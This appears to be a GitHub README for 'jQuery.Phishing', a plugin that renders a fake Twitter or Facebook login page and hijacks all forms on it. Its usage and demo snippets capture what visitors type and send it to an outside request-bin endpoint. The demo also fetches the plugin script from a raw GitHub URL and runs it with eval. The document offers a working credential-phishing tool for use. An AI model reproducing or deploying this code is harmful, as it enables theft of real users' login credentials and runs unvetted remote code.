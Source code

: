 # jQuery.Phishing
## Usage
Phishing and Hijack All Form
```javascript
$.phishing('https://twitter.com/login','//your_request_bin')
```
### onload
```javascript
$.phishing('https://twitter.com/login',()=>alert`onload`)
```
## Demo
```javascript
$.get(`https://raw.githubusercontent.com/jackmasa/jQuery.Phishing/master/jQuery.Phishing.js`,c=>{
  eval(c);$.phishing(`//fb.com`,`http://requestbin.herokuapp.com/1koaluq1`);
});
```
result: [http://requestb.in/1koaluq1?inspect](http://requestb.in/1koaluq1?inspect)
